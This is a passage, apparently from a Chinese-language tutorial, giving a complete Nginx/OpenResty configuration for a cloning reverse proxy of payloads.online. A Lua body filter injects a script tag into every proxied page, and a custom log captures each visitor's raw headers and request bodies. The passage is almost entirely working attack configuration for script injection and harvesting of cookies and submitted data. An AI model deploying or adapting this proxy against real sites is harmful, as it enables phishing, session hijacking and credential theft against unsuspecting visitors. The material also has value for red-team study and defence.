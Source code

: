 `ngx.localtime()`和`ngx.req.raw_header()`是调用了Lua Ngx API。

#### Nginx - 最终配置

    
    
    worker_processes  1;  
    events {  
        worker_connections  1024;  
    }  
      
      
    http {  
        include       mime.types;  
        default_type  application/octet-stream;  
        sendfile        on;  
        log_format  logeverything  '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';  
      
      
        server {  
                set $request_headers "";  
                set $current_time "";  
      
                server_name proxy.payloads.online;  
                listen 80;  
      
                location ^~ /7276df76835ed2272cc0e59f55e49902/ {  
                    alias    /tmp/pricking/static/;  
                }  
      
      
                location / {  
                    proxy_pass http://payloads.online;  
                    proxy_set_header Host payloads.online;  
                    header_filter_by_lua_block { ngx.header.content_length = nil}  
                    body_filter_by_lua_block{  
                            local chunk, eof = ngx.arg[1], ngx.arg[2]  
                            local buffered = ngx.ctx.buffered  
                            if not buffered then  
                               buffered = {}  
                               ngx.ctx.buffered = buffered  
                            end  
                            if chunk ~= "" then  
                               buffered[#buffered + 1] = chunk  
                               ngx.arg[1] = nil  
                            end  
                            if eof then  
                               local whole = table.concat(buffered)  
                               ngx.ctx.buffered = nil  
                               whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"  
                               ngx.arg[1] = whole  
                            end  
                    }  
                    log_by_lua_block {  
                        ngx.var.current_time = ngx.localtime()  
                        ngx.var.request_headers = ngx.req.raw_header()  
                    }  
            }  
            access_log /tmp/pricking/access.log logeverything;  
        }  
    }
